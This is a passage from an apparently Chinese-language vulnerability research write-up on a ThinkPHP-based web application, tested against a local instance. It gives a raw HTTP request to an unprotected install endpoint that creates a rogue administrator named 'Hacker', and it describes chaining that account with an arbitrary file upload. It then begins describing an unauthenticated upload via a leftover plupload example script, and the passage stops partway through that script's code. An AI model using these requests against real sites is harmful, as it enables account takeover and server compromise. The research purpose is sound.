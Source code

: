 **payload 2:**  
```
POST /index.php/install/index/admin HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 27
Content-Type: application/json
Cookie: thinkphp_show_page_trace=0|0; thinkphp_show_page_trace=0|0; thinkphp_show_page_trace=0|0; thinkphp_show_page_trace=0|0; Hm_lvt_fc57361ae07d02ff0e22fc7acd0b2553=1711823704,1711863189; __51vcke__Jn7D2bUCe2U5jXJk=2a2f79b5-b57f-565a-a544-da2a60149048; __51vuft__Jn7D2bUCe2U5jXJk=1713527328654; __51uvsct__Jn7D2bUCe2U5jXJk=3; ECS_ID=e2f2a6564b64ffe4b314be9952098e9a4919cbc5; ECS[visit_times]=1; Hm_lvt_8513c8e18c0a7dc33633b4e6b1880ecb=1713617487; Hm_lpvt_8513c8e18c0a7dc33633b4e6b1880ecb=1713617507; ECSCP_ID=54e4831a83b5b6bd7bd76e16a8f583f9adaabbae; think_var=zh-cn; PHPSESSID=2cee48315c70109480b9890a4b0558b3; thinkphp_show_page_trace=0|0
Host: 127.0.0.1:81
Origin: http://127.0.0.1:81
Referer: http://127.0.0.1:81/index.php/install/index/check
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
sec-ch-ua: "Google Chrome";v="123", "Not:A-Brand";v="8", "Chromium";v="123"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-user: ?1

{"id":1}
```  
  
**然后回到phpmyadmin中，很直观的能看到管理员中多了一条Hacker，而其他数据均无变化，****这也许是程序员安全意识的淡薄，但多半是未料到会有此复杂的逻辑缺陷.**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5eDI8kJ4OxzBtdBZLGIHIux458zKYv7lliaSxTVLJUkY8NxwfskJhsU1hic9M7zQnQSMXqc5DhKwxJQ/640?wx_fmt=other&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5eDI8kJ4OxzBtdBZLGIHIuxQyWUdKjnSdgHLofUiczFwjiayX5YvnW3CFHhickcB9JzYF13TxYdvIVWQ/640?wx_fmt=other&from=appmsg "")  
  
**使用创建的后台用户Hacker登录，发现点击任何地方都显示无权限，因为还没设定为后台超级管理员.**  
  
****  
**但这并不妨碍我们上传文件，所以我们可以直接使用前文的后台任意文件洞上传文件，至此，两个完整的利用链形成.**  
  
****## 0x04 Win环境下前台任意文件上传漏洞  
  
**回头想起来这套程序，又搭建了起来研究一下，用seay对public目录扫了一下，发现有几个php文件不太正常**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5eDI8kJ4OxzBtdBZLGIHIuxJGMyelNQwnib4Ad52RaC240wpI3bTzZprkyDFbcmPoibgKZQAEQNAo4w/640?wx_fmt=other&from=appmsg "")  
**在/static/newcj/js/dist/plupload-2.3.3/examples/upload.php 中，存在fopen函数，且$_FILES["file"]和$filename传入参数可控，并未有鉴权，导致前台任意文件上传**  
```
<?php
/**
 * upload.php
 *
 * Copyright 2013, Moxiecode Systems AB
 * Released under GPL License.
 */
header("Expires: Mon, 26 Jul 1997 05:00:00 GMT");
header("Last-Modified: " . gmdate("D, d M Y H:i:s") . " GMT");
header("Cache-Control: no-store, no-cache, must-revalidate");
header("Cache-Control: post-check=0, pre-check=0", false);
header("Pragma: no-cache");
```